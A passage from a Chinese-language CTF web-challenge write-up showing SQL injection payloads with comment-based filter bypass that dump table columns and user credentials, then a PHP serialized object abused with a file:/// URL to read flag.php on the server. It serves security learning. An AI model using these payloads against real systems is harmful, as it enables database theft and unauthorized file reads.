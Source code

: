 爆列

```
?no=-1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'
```

```
no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
```

爆数据

```
?no=-1 union/**/select 1,concat(no,'~',username,'~',passwd,'~',data),3,4 from users
```

得到

```
1~marin~3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2~O:8:"UserInfo":3:{s:4:"name";s:5:"marin";s:3:"age";i:123;s:4:"blog";s:21:"https://wwwmarin.xyz/";}
```

看到最后的data就是序列化的数据

猜测这个应该就是第4个数据传进去的，构造序列化

```php
<?php
class UserInfo
{
    public $name = "marin";
    public $age = 0;
    public $blog = "www.baidu.com";
}

$a = new UserInfo();
$b = serialize($a);
echo $b;
```

使用百度网页试试

![image-20250215114117646](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250215114117646.png)

成功修改，查看源代码，能发现已经被base64加密了，现在就可以查看flag.php

![image-20250215114132425](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250215114132425.png)

并且根据前面的报错知道了 **/var/www/html/view.php**这个路径，所以flag.php也应该在这里

最后payload

```
?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"marin";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```
